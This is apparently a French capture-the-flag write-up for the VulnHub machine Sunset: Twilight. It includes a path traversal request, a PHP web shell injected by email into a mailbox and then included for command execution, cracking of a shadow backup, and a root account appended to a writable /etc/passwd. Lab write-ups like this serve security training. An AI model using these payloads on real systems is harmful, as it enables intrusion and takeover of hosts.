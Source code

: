 ```yaml
---
title: "Solution du CTF Sunset: Twilight de VulnHub"
tags: [CTF, VulnHub]
---
```


Suite de la saga *Sunset* avec le CTF [Twilight](https://vulnhub.com/entry/sunset-twilight,512/) disponible sur *VulnHub*. Cet opus reprend quelques principes déjà vus dans les précédents épisodes.

Sur le port 80 se trouve un site custom. `Wapiti` y trouve très vite une faille de type directory traversal :

```console
$ wapiti -u "http://192.168.56.165/"

     __    __            _ _   _ _____
    / / /\ \ \__ _ _ __ (_) |_(_)___ /
    \ \/  \/ / _` | '_ \| | __| | |_ \
     \  /\  / (_| | |_) | | |_| |___) |
      \/  \/ \__,_| .__/|_|\__|_|____/
                  |_|                 
Wapiti 3.1.7 (wapiti-scanner.github.io)
[*] Saving scan state, please wait...

[*] Launching module exec

[*] Launching module ssrf

[*] Launching module cookieflags

[*] Launching module sql

[*] Launching module http_headers
Checking X-Frame-Options :
X-Frame-Options is not set
Checking X-Content-Type-Options :
X-Content-Type-Options is not set

[*] Launching module ssl

[*] Launching module file
---
Linux local file disclosure vulnerability in http://192.168.56.165/lang.php via injection in the parameter lang
Evil request:
    GET /lang.php?lang=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
    host: 192.168.56.165
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---

[*] Launching module redirect

[*] Launching module xss

[*] Launching module csp
CSP is not set

[*] Launching module permanentxss

[*] Generating report...
A report has been generated in the file /home/sirius/.wapiti/generated_report
Open /home/devloop/.wapiti/generated_report/192.168.56.165_04092023_0735.html with a browser to see this report.
```

L'idée est ensuite de trouver un fichier à inclure dans lequel on peut aussi injecter des données d'une façon ou d'une autre (ex : User-Agent dans les logs Apache, nom d'utilisateur dans les logs SSH, etc) 

Ici on remarque que l'on peut inclure la boite mail de l'utilisateur `www-data` :

```console
$ ffuf -u "http://192.168.56.165/lang.php?lang=../../../../../../../../FUZZ" -w logfiles.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.165/lang.php?lang=../../../../../../../../FUZZ
 :: Wordlist         : FUZZ: logfiles.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

/etc/issue.net          [Status: 200, Size: 20, Words: 3, Lines: 2]
/etc/passwd             [Status: 200, Size: 1594, Words: 16, Lines: 30]
/etc/os-release         [Status: 200, Size: 261, Words: 6, Lines: 10]
/etc/ssh/sshd_config    [Status: 200, Size: 3235, Words: 293, Lines: 122]
/proc/cmdline           [Status: 200, Size: 96, Words: 4, Lines: 2]
/proc/version           [Status: 200, Size: 145, Words: 14, Lines: 2]
/var/log/alternatives.log.1 [Status: 200, Size: 20009, Words: 1452, Lines: 104]
/var/log/faillog        [Status: 200, Size: 32032, Words: 1, Lines: 1]
/var/log/dpkg.log.1     [Status: 200, Size: 285260, Words: 21272, Lines: 4279]
/var/log/lastlog        [Status: 200, Size: 292292, Words: 1, Lines: 1]
/var/log/wtmp           [Status: 200, Size: 45696, Words: 1, Lines: 6]
/var/mail/www-data      [Status: 200, Size: 21825, Words: 1909, Lines: 532]
/var/run/utmp           [Status: 200, Size: 1152, Words: 1, Lines: 1]
/var/spool/mail/www-data [Status: 200, Size: 21825, Words: 1909, Lines: 532]
/etc/motd               [Status: 200, Size: 286, Words: 36, Lines: 8]
/etc/mysql/my.cnf       [Status: 200, Size: 869, Words: 115, Lines: 24]
/etc/group              [Status: 200, Size: 838, Words: 1, Lines: 60]
/etc/hosts              [Status: 200, Size: 188, Words: 19, Lines: 8]
/etc/crontab            [Status: 200, Size: 1042, Words: 181, Lines: 23]
/etc/apache2/apache2.conf [Status: 200, Size: 7224, Words: 942, Lines: 228]
/etc/issue              [Status: 200, Size: 27, Words: 5, Lines: 3]
/etc/services           [Status: 200, Size: 18774, Words: 1098, Lines: 579]
:: Progress: [275/275] :: Job [1/1] :: 16 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Pour injecter des données dans ce fichier, on peut envoyer un mail à l'utilisateur puisque le port SMTP est accessible :

```console
$ ncat 192.168.56.165 25 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.165:25.
220 twilight ESMTP Exim 4.92 Sun, 09 Apr 2023 03:40:18 -0400
HELO twilight
250 twilight Hello twilight [192.168.56.1]
MAIL FROM: zozo@hacker.com
250 OK
RCPT TO: www-data@twilight
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
start<?php system($_GET["cmd"]); ?>end
.
250 OK id=1plPfC-0000KN-Tg
QUIT
221 twilight closing connection
```

On effectuera l'exécution de commande de cette façon :

```
http://192.168.56.165/lang.php?lang=../../../../../../../../var/spool/mail/www-data&cmd=uname%20-a
```

Une fois un shell récupéré je vois deux processus qui servent le même dossier via PHP CLI :

```
miguel     363  0.0  2.2 216292 23168 ?        S    03:32   0:00 /usr/bin/php -S 0.0.0.0:63525 -t /home/miguel/efs2
miguel     364  0.0  2.3 216292 23320 ?        S    03:32   0:00 /usr/bin/php -S 0.0.0.0:8080 -t /home/miguel/efs
miguel     365  0.0  1.5  24388 15636 ?        S    03:32   0:00 /usr/bin/python -m pyftpdlib -w -p 2121 -d /home/miguel/ftp
```

À bien regarder les fichiers exposés se font passer pour un `Easy File Sharing Web Server 7.2` mais il s'agit en fait juste d'un HTML pour nous induire en erreur.

Le dossier servi est inaccessible, mais je devine qu'il s'agit d'un faux, car aucun des liens dans la page retournée n'est fonctionnel, mais aussi parce que la version de PHP est vulnérable à une faille de divulgation de code source déjà présenté dans mes précédentes solutions.

C'est en vérifiant les fichiers sur le système qu'on obtient quelques surprises :

```console
www-data@twilight:/tmp$ find / -type f -user root -writable -ls 2> /dev/null | grep -v /proc | grep -v /sys
   146813      4 -rwxrwxrwx   1 root     root         1594 Jul 16  2020 /etc/passwd
   277308      4 -rwsrwxrwx   1 root     root         1286 Nov 27  2007 /var/www/html/gallery/style/images/ok.gif
   277304      4 -rwsrwxrwx   1 root     root          455 Nov 27  2007 /var/www/html/gallery/style/images/header_bg.gif
   277306      4 -rwsrwxrwx   1 root     root          579 Nov 27  2007 /var/www/html/gallery/style/images/header_right.gif
   277303      4 -rwsrwxrwx   1 root     root          511 Nov 27  2007 /var/www/html/gallery/style/images/button.gif
   277305      4 -rwsrwxrwx   1 root     root         1581 Nov 27  2007 /var/www/html/gallery/style/images/header_left.gif
   277307      4 -rwsrwxrwx   1 root     root         1333 Nov 27  2007 /var/www/html/gallery/style/images/nok.gif
   277309      4 -rwsrwxrwx   1 root     root         3191 Nov 27  2007 /var/www/html/gallery/style/style.css
```

Le fichier `passwd` est donc écrivable par tous mais ce n'est pas tout : une backup du fichier `shadow` est accessible.

```
   131126      4 -rw-rw-r--   1 root     shadow       1036 Jul  8  2020 /etc/shadow-
```

On peut très vite casser le hash de l'utilisateur `miguel` qui n'est autre que `miguel`.

Le mot de passe ne fonctionne pas pour `ssh` mais est accepté pour `smb` :

```console
$ smbclient -U miguel -L //192.168.56.165
Password for [WORKGROUP\miguel]:

        Sharename       Type      Comment
        ---------       ----      -------
        WRKSHARE        Disk      Workplace Share. Do not access if not an employee.
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
SMB1 disabled -- no workgroup available
```

Le partage s'avère vide, mais peu importe. Comme on peut écrire dans `/etc/passwd` on peut rajouter un compte utilisateur privilégié :

```console
www-data@twilight:/tmp$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> /etc/passwd
www-data@twilight:/tmp$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
(\ 
\'\ 
 \'\     __________  
 / '|   ()_________)
 \ '/    \ ~~~~~~~~ \
   \       \ ~~~~~~   \
   ==).      \__________\
  (__)       ()__________)


34d3ecb1bbd092bcb87954cee55d88d3

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```
